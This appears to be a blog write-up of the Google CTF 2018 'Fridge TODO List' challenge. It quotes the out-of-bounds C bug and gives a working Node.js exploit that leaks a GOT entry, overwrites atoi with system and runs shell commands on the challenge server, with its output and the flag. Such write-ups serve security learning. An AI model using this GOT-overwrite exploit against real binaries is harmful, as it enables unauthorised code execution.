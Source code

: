 # Hacking Smart Fridge at Google CTF 2018

It's unfortunate, but these SUID binary exploits are a bit too difficult. I
managed to solve none of them. I will go study more about SUID binaries and
hopefully I can get cakes next year.

But hey, I did manage to hack into the smart fridge.

## Fridge TODO List

The source code of the vulnerable program is included in the attachment.
Reading over it, it's not hard to see what's broken, but how to exploit it
is another question:

```C
// [...]

void store_todo() {
  printf("In which slot would you like to store the new entry? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("What's your TODO? ");
  fflush(stdout);
  read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
}

void print_todo() {
  printf("Which entry would you like to read? ");
  fflush(stdout);
  int idx = read_int();
  if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
  }
  printf("Your TODO: %s\n", &todos[idx*TODO_LENGTH]);
}

// [...]
```

If I enter a negative number, I can read and write data out of bound. However,
`TODO_LENGTH` is `0x30`, so my access is somewhat restricted. With some math
and a disassembler, I found places that I can access:

```
-6  The "write" function in the Global Offset Table
-5  The "strncat" function in the Global Offset Table
-4  The "open" function in the Global Offset Table
-3  Some random place
-2  Start of "username" buffer
-1  Somewhere in the middle of "username" buffer
```

The `system` function in between `write` and `strncat` would allow me to
execute any shell command, so my goal should be to overwrite the Global Offset
Table (GOT) and make some other function point to `system`. Since `atoi` is
used to parse my menu choice input, it would be easy to exploit if I can make
`atoi` point to `system`. But there is another problem, modern operating
systems have Address Space Layout Randomization (ASLR), and a static payload
would not work.

I spent some time creating a 
[Node.js library](https://github.com/jspenguin2017/Blog/tree/master/tools/lib)
that allow my scripts to react to different server response over `netcat`.
Since I can't directly read the address of `system`, I have to calculate it
based on something else. `strncat` is already called before I can leak the
GOT, but `write` is only called when the program is exiting, so its GOT entry
should be still pointing to the Procedure Linkage Table (PLT). With Hopper
Disassembler, I determined that the `system` entry in PLT is `0x30` below
`write`. Hopefully it'll work:

```JavaScript
"use strict";

const assert = require("assert");
const nc = require("./lib/netcat");
const hex = require("./lib/hexutil");

const conn = new nc("fridge-todo-list.ctfcompetition.com", 1337);

(async () => {
    // Log in as (fake) root
    await conn.read_until("user:");
    conn.write_line("root");

    await conn.read_until(">");
    conn.write_line("2");

    // Leak address of "write" in the GOT
    await conn.read_until("read?");
    conn.write_line("-6");

    await conn.read_until("TODO: ");
    let data = await conn.read_until("Hi root");

    const i = data.indexOf("\n\n");
    assert(i !== -1);
    data = data.slice(0, i);
    hex.add(data, 0x30);

    // Overwrite "atoi" with "system", corrupting "open" on the way, I don't
    // need "open" anymore, so it's OK
    await conn.read_until(">");
    conn.write_line("3");

    await conn.read_until("entry?");
    conn.write_line("-4");

    await conn.read_until("TODO?");
    conn.write("A".repeat(8)); conn.write(data); conn.write("\n");

    // List directory
    await conn.read_until(">");
    conn.write_line("ls -al ./todos");
})();
```

Let's try it:

```
$ node exploit
[...]
> ls -al ./todos
total 12
drwxrwxrwt 2 user user   80 Jul  8 03:47 .
drwxr-xr-x 3 user user 4096 Jun 29 14:38 ..
-rw-r--r-- 1 user user 6144 Jul  8 03:47 CountZero
-rw------- 1 user user    0 Jul  8 03:47 root
[...]
```

Looks like Wintermuted is using `CountZero` as his username:

```
$ nc fridge-todo-list.ctfcompetition.com 1337
[...]
user: CountZero
+=====+=================================================================+
|   0 | Watch Hackers (again)                                           |
|   1 | Figure out why the fridge keeps beeping                         |
|   2 | check /home/user/holey_beep                                     |
|   3 | debug the fridge - toilet connectivity                          |
|   4 | follow sec advice: CTF{goo.gl/cjHknW}                           |
+=====+=================================================================+
[...]
```

And there is the flag. Check `/home/user/holey_beep`? What does that mean?

As for the URL in the flag, it links to a (troll) tweet saying signed integers
are more secure than unsigned ones.

## Holey... Beep?

Holey Beep, or [CVE-2018-0492](https://nvd.nist.gov/vuln/detail/CVE-2018-0492),
is a privilege escalation vulnerability in the `beep` utility. Although I
managed to understand how Holey Beep works, I didn't manage to complete this
quest...

I will be back. I will.
